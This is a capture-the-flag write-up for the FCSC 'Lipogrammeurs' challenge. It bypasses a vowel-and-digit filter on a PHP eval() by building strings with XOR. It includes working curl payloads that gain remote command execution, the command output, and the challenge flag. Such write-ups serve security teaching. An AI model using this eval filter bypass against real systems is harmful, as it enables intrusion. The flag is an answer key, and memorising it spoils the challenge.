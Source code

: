 # Lipogrammeurs

> Vous avez trouvé cette page qui vous semble étrange. Pouvez-vous nous convaincre qu'il y a effectivement un problème en retrouvant le flag présent sur le serveur ?
> 
> URL : http://challenges2.france-cybersecurity-challenge.fr:5008/

```php
<?php
    if (isset($_GET['code'])) {
        $code = substr($_GET['code'], 0, 250);
        if (preg_match('/a|e|i|o|u|y|[0-9]/i', $code)) {
            die('No way! Go away!');
        } else {
            try {
                eval($code);
            } catch (ParseError $e) {
                die('No way! Go away!');
            }
        }
    } else {
        show_source(__FILE__);
    }
```

This `eval()` looks pretty easy to exploit. No vowels (lol), no digits, case-insensitive.

I found a nice trick which does exactly what we need to `eval` any input, regardless of the ~~very strong~~ filter. It's based on XOR operator and enables us to build any string using only characters in a custom charset. For example:

```php
php > $_ = "~}`|" ^ "!:%(";
php > var_dump($_ === '_GET');
bool(true)
```

with the following charset ```$_'"`!~%(```. No filtered character :D

I wrote a Python script to find the "XORed version" of any string. You can download it [here](https://github.com/ZanyMonk/Toolz/blob/master/str2noAlnumPHPString.py).

```php
$ ./str2noAlnumPHPString.py -m "a-z0-9'" _GET
$_="~}`|"^"!:%(";    # $_ = "_GET";
```

We can now access any `GET` argument passed to the PHP script, then executing a function becomes trivial:

```
$ curl "http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$(echo -n '$_="~}`|"^"!:%(";$$_["_"]();' | t url -a)&_=phpinfo"
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
...
```

We have an RCE :D

```
$ curl "http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$(echo -n '$_="~}`|"^"!:%(";$$_["_"]($$_["__"]);' | t url)&_=system&__=$(echo -n 'ls -la'| t url)"
total 16
dr-xr-xr-x 1 root root 4096 Apr 27 14:33 .
drwxr-xr-x 1 root root 4096 Apr 27 14:33 ..
-r--r--r-- 1 root root  115 Apr 27 14:32 .flag.inside.J44kYHYL3asgsU7R9zHWZXbRWK7JjF7E.php
-r-xr-xr-x 1 root root  304 Apr 27 14:32 index.php

...

$ curl "http://challenges2.france-cybersecurity-challenge.fr:5008/?code=$(echo -n '$_="~}`|"^"!:%(";$$_["_"]($$_["__"]);' | t url)&_=system&__=$(echo -n 'cat .*'| t url)" 
<?php
        // Well done!! Here is the flag:
        // FCSC{53d195522a15aa0ce67954dc1de7c5063174a721ee5aa924a4b9b15ba1ab6948}
```